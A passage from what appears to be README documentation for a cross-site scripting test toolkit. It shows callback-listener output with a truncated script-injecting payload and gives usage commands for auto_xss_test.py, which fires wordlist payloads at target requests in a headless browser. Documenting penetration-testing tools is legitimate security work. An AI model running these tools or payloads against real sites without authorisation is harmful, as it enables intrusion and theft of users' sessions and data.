 **Output Example:**
```
======================================================================
🎯 XSS PAYLOAD HIT!
======================================================================
Time:       2025-10-21 14:32:15
Payload ID: 123
From IP:    203.0.113.45
Protocol:   HTTPS
Path:       /x.js?id=123
Referer:    https://target.com/search?q=test...
Payload:    <img src=x onerror="var s=document.createElement('scri...
======================================================================
💡 Find payload: sed -n '123p' wordlists/www_input_payloads.txt
======================================================================

On shutdown (Ctrl+C):
Sorting files by ID...
✓ Sorted result file by ID: result/working.txt
✓ Sorted log file by ID: result/xss_hits.log
✓ Done
```

---

### 3. **auto_xss_test.py**

**Purpose:** Automated XSS testing with headless browser

**What it does:**
- Loads payloads from wordlist and injects them into target
- Uses real browser (Firefox headless) to execute JavaScript
- Detects XSS through multiple methods:
  - **HTML Reflection** - Payload in HTML source
  - **DOM Execution** - Performance API detects callback request
  - **Script Tag Injection** - Script tag found in DOM
- Supports GET, POST (form/JSON), and multi-threading
- **Second-order XSS** detection (stored XSS on different page)
- Automatically triggers events (hover, click) to activate payloads

**Usage:**
```bash
# GET request (use URL encoded wordlist)
python3 auto_xss_test.py \
  --request burp_get.txt \
  --wordlist wordlists/url_payloads.txt \
  --threads 5

# POST form-urlencoded
python3 auto_xss_test.py \
  --request burp_post_form.txt \
  --wordlist wordlists/www_input_payloads.txt \
  --threads 5

# POST JSON
python3 auto_xss_test.py \
  --request burp_post_json.txt \
  --wordlist wordlists/json_input_payloads.txt \
  --threads 5

# Fast mode (10 threads, 1s delay)
python3 auto_xss_test.py \
  --request burp.txt \
  --wordlist wordlists/www_input_payloads.txt \
  --threads 10 --delay 1
```
